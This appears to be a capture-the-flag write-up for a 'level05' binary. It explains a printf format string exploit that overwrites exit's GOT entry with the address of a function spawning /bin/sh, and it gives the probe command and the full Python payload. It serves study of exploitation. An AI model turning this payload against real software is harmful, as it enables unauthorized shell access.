 ![ghidra](./ressources/ghidra.png)
like previous exercise we will use a format string exploit on printf.

this time we need to call the function `o` which calls `/bin/sh`. see `source.c`.
we already used a exploit in `gets` to make the end of a function go to a address in memory, but this time we can't as the function ends with a `exit(1)` that will terminate the program before the program jump to our target address.
but we can change the actual address of the function `exit `to the address of the function `o`, using the GOT table (Global Offset Table) which store all the addresses of the functions used in the program.

using ghidra we can find the addresses of `exit` (`08049838`) and `o` (`080484a4`).
`o` address is `134513828` in decimal, we will substract 4 from it since we already wrote 4 byte for the address of exit (`"\x38\x98\x04\x08"`).
`echo -n iiii %p %p %p %p  | ./level05` will print 0x69696969 (iiii) at the 4th position.
like previous exercise:
`python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/a`

